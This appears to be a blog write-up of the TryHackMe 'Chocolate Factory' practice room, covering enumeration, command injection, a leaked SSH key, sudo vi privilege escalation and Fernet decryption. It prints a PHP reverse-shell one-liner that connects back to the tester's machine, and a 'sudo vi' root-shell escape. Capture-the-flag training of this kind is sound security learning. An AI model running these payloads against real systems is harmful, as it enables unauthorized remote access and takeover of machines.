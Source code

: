 ```yaml
---
layout: post
title: Tryhackme - Chocolate Factory
date: 2021-01-20 19:00:00 +0000
category: [Tryhackme, Easy]
tags: [thm,linux,easy,reversing,reverse-shell,cipher]
---
```


---
Chocolate Factory is a beginner level room in tryhackme which is based on the ```Charlie and the Chocolate factory``` film. The final objective is to get the user and root flag.
<br>
![cover_image](/assets/img/tryhackme/chocolatefactory/1.png)

**Author** | 0x9747 and saharshtapi and AndyInfoSec
**Description** | A Charlie And The Chocolate Factory themed room, revisit Willy Wonka's chocolate factory!

Deploy the VM and let's go.

## <ins>Getting the key</ins>
---
Let's start enumerating with the usual nmap scan.
<br>
![nmap_scan](/assets/img/tryhackme/chocolatefactory/nmap_scan.png)
<br>
I was not able to login to the ```ftp service```. So, I tried grabbing the banner for other open ports using ```nmap banner script``` and ```netcat```. To run the ```nmap banner script``` use: 
<br>
<pre>nmap --script=banner 10.10.71.79 -p21-125 -v</pre>
<br>
I let nmap script scan run in one terminal and in the meanwhile I checked the individual ports using ```netcat``` utility. After checking some ports, I got this banner from the ```port 113```.
<br>
![banner_grab](/assets/img/tryhackme/chocolatefactory/15.png)
<br>

I noted that ```file name``` and checked other open ports. After the nmap script scan completed I searched for other information but my effort was useless.

I went for the ```http service``` and got the login page. I tried some common credentials but had no luck. 
<br>
![http_service](/assets/img/tryhackme/chocolatefactory/2.png)
<br>
I appended the ```file name``` in the url and got an ```ELF file```. I used ```strings``` to get the contents of the file.
<br>
![file_op](/assets/img/tryhackme/chocolatefactory/6.png)
<br>
<pre>strings key_rev_key</pre>
<br>
![strings_key](/assets/img/tryhackme/chocolatefactory/7.png)
<br>

This should answer the first question.

## <ins>Getting Charlie's password</ins>
---
I used ```gobuster``` to find the hidden directories in the webpage.
<br>
<pre>gobuster dir -u http://machine-ip/ -w /usr/share/dirb/wordlists/common.txt -x php,html,js,txt</pre>
<br>
![gobuster_results](/assets/img/tryhackme/chocolatefactory/3.png)
<br>
I went into ```home.php``` page and found a input box with the placeholder **Command**.
<br>
![home_php](/assets/img/tryhackme/chocolatefactory/4.png)
<br>

To check if the input returns a corresponding output, I used some basic command like ```whoami``` and ```id```. I confirmed that it returns the output. So, I grabbed a ```php reverse shell payload``` and executed it. 
<br>
<pre>php -r '$sock=fsockopen("your-vpn-ip",4444);$proc=proc_open("/bin/sh -i", array(0=>$sock, 1=>$sock, 2=>$sock),$pipes);'</pre>
<br>
Remember to open a netcat listener in your local machine.
<br>
![reverse_shell](/assets/img/tryhackme/chocolatefactory/5.png)
<br>
We got the reverse shell. Stabilize the shell using ```python pty```.

I found the ```validate.php``` file in the ```/var/www/html``` directory which contains the password of the user ```charlie```
<br>
![validate_php](/assets/img/tryhackme/chocolatefactory/8.png)
<br>

This shoud answer the second question.


## <ins>User flag</ins>
---
After enumerating further, I found the ssh private key in a file named ```teleport```  in the ```/home/charlie``` directory.
<br>
![private_key](/assets/img/tryhackme/chocolatefactory/9.png)
<br>
I copied the ssh private key into a file in my local machine and used it to ssh into the machine with the username ```charlie```. Remember to change the file permissions using...
<br>
<pre>chmod 600 id_rsa_file</pre>
<br>
![user_flag](/assets/img/tryhackme/chocolatefactory/10.png)
<br>
After ssh-ing into the machine we can get the ```user flag```.

## <ins>Root flag</ins>
---
I tried some common ways for ```priviledge escalation``` and finally found that ```/usr/bin/vi``` can be run as root.
<br>
![sudo_list](/assets/img/tryhackme/chocolatefactory/11.png)
<br>
I searched for ```vi``` in ```gtfobins``` and got the payload to spawn the root shell.
<br>
<pre>sudo vi -c ':!/bin/sh' /dev/null</pre>
<br>
![vi_hack](/assets/img/tryhackme/chocolatefactory/12.png)
<br>
Instead of the usual root flag, there is a python file with a message which is encrypted with ```Fernet```.

Fernet is a symmetric key encryption algorithm which makes sure that a message encrypted cannot be read without the key.
<br>
![enrypted_message](/assets/img/tryhackme/chocolatefactory/13.png)
<br>
I searched for ```Fernet decryptor``` in google and came across this [online Fernet decryptor](https://asecuritysite.com/encryption/ferdecode).

Put the message you found in the python file in the ```Token``` input box, the key in the key input box and click on the ```Determine``` button. 
<br>
![root_flag](/assets/img/tryhackme/chocolatefactory/14.png)
<br>
Bingo!!! We got the root flag.

That's it folks. Happy hacking!!!
